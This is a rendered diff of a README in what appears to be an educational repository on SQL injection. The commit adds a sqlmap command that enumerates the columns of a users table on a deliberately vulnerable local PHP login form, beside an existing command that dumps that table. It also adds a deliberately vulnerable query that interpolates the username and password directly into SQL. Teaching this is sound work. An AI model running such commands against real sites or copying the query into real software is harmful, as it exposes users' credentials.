

Before and after one commit to cipriancyberspace/securewebapplication, a Markdown page: Secure_Login_System/README.MD, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/Secure_Login_System/README.MD
+++ b/Secure_Login_System/README.MD
@@ -51,3 +51,16 @@ over data fetching from the database, to accessing the underlying file system an
 <pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
        --data="username=test&password=test" \
        -D test_db -T users --dump --batch</code> </pre>
+
+<strong> 4.Get database schema: </strong>
+
+<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
+       --data="username=test&password=test" \
+       -D test_db -T users --columns --batch</code> </pre>
+
+
+
+⚠️ Why This Works
+Vulnerable PHP code:
+<pre> <code>$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";</code> </pre>
+SQLMap exploits this by injecting payloads that break out of the SQL query, allowing it to execute additional SQL commands to enumerate databases.
```
